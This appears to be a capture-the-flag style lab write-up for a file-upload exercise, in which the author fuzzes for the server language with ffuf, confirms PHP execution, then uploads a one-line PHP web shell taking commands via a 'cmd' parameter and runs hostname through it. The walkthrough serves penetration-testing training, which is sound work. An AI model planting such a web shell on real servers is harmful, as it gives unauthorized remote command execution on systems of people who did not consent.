






## Exercises

### Question 1 — Try to upload a PHP script that executes the (hostname) command on the back-end server, and submit the first word of it as the answer.

Visited the target and landed on the upload page for the Employee File Manager application.



With the language not stated anywhere, checked Wappalyzer first to see if it would reveal the back-end technology.



Ruled out: Wappalyzer doesn't surface a language here — it only listed the web server, OS, and front-end libraries, nothing that points to PHP, ASP, or anything else running server-side.

Moved on to fuzzing for an index page with a common web extension, using ffuf against a web extensions wordlist:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ffuf -u 'http://154.57.164.73:38422/indexFUZZ' -w /usr/share/wordlists/seclists/Discovery/Web-Content/web-extensions.txt:FUZZ -ic -c 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.3.0
________________________________________________

 :: Method           : GET
 :: URL              : http://154.57.164.73:38422/indexFUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/web-extensions.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.php                    [Status: 200, Size: 679, Words: 77, Lines: 24, Duration: 2902ms]
.phps                   [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 4931ms]
:: Progress: [43/43] :: Job [1/1] :: 8 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```

**Breakdown:**

- `-u 'http://154.57.164.73:38422/indexFUZZ'` sets the target URL, with `FUZZ` marking the spot where each wordlist entry gets substituted in
- `-w /usr/share/wordlists/seclists/Discovery/Web-Content/web-extensions.txt:FUZZ` points ffuf at the wordlist of web extensions and binds it to the `FUZZ` keyword above
- `-ic` ignores comment lines in the wordlist
- `-c` colourises the output

`.php` came back `200`, `.phps` came back `403` (that extension being blocked is itself a sign the server parses PHP, since `.phps` is a convention some setups use to serve PHP source as plain text rather than execute it). Confirmed: the application runs on PHP.

With the language confirmed, built a minimal payload to check that an uploaded `.php` file would actually be executed rather than just stored:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ echo '<?php echo "Testing testing 123";?>' > test.php

┌──(—REDACTED—㉿kali)-[~]
└─$ cat test.php                                         
<?php echo "Testing testing 123";?>
```

**Breakdown:**

- `echo '<?php echo "Testing testing 123";?>'` outputs the PHP snippet as a literal string
- `> test.php` redirects that output into a new file named `test.php`

Uploaded `test.php` through the form.



The upload button itself turned out to be unreliable — it was slow to bring up a file manager to pick a file from, and often seemed to be pulling from the clipboard rather than letting a file be browsed to normally. Dragging the file straight into the drop zone worked as a workaround instead.

The upload succeeded and the file ran as PHP rather than being served as plain text:



Confirmed: the `echo` statement executed server-side instead of the raw source being printed, so arbitrary PHP uploaded here gets executed.

> **Why it matters:** Seeing the string rendered rather than the raw `<?php echo ... ?>` source is what proves code execution, not just a successful file upload.

With execution confirmed, built the actual payload — a basic web shell taking a command through a GET parameter:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ echo '<?php system($_GET["cmd"]);?>' > shell.php

┌──(—REDACTED—㉿kali)-[~]
└─$ cat shell.php 
<?php system($_GET["cmd"]);?>
```

**Breakdown:**

- `<?php ... ?>` opens and closes the PHP code block
- `system(...)` runs its argument as a shell command on the back-end server and prints the output
- `$_GET["cmd"]` reads the value of the `cmd` query parameter from the request URL, so whatever is passed in `cmd` becomes the command `system()` runs

(The target's IP had changed by this point, since the box needed a reset.)

Selected `shell.php` and uploaded it, again via drag-and-drop to avoid the buggy upload button:





Navigated to the uploaded shell with `cmd=hostname` set:

```txt
http://154.57.164.76:41597/uploads/shell.php?cmd=hostname
```


The `hostname` command ran and returned the container's hostname. The question asks for "the first word of it", but the output is a single unbroken string with no spaces to split on, so the whole string was submitted as the answer.

**Answer:** `—REDACTED—`